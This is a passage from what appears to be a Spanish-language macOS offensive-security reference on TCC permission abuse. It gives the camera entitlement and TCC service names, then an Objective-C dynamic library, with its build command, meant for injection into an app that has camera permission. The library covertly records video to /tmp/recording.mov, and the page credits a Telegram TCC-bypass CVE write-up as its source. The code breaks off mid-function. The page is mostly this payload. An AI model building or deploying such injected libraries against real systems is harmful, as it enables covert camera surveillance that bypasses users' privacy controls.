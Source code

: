 * **Entitlement**: `com.apple.security.device.camera`
* **TCC**: `kTCCServiceCamera`

{% tabs %}
{% tab title="ObjetiveC - Grabar" %}
Graba un video de 3s y guárdalo en **`/tmp/recording.mov`**
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}
- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
NSError *error;
self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
if (error) {
NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
return;
}
if ([self.captureSession canAddInput:self.videoDeviceInput]) {
[self.captureSession addInput:self.videoDeviceInput];
}
self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
if ([self.captureSession canAddOutput:self.movieFileOutput]) {
[self.captureSession addOutput:self.movieFileOutput];
}
}
- (void)startRecording {
[self.captureSession startRunning];
NSString *outputFilePath = @"/tmp/recording.mov";
NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
[self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
NSLog(@"Recording started");
}
- (void)stopRecording {
[self.movieFileOutput stopRecording];
[self.captureSession stopRunning];
NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray<AVCaptureConnection *> *)connections
error:(NSError *)error {
```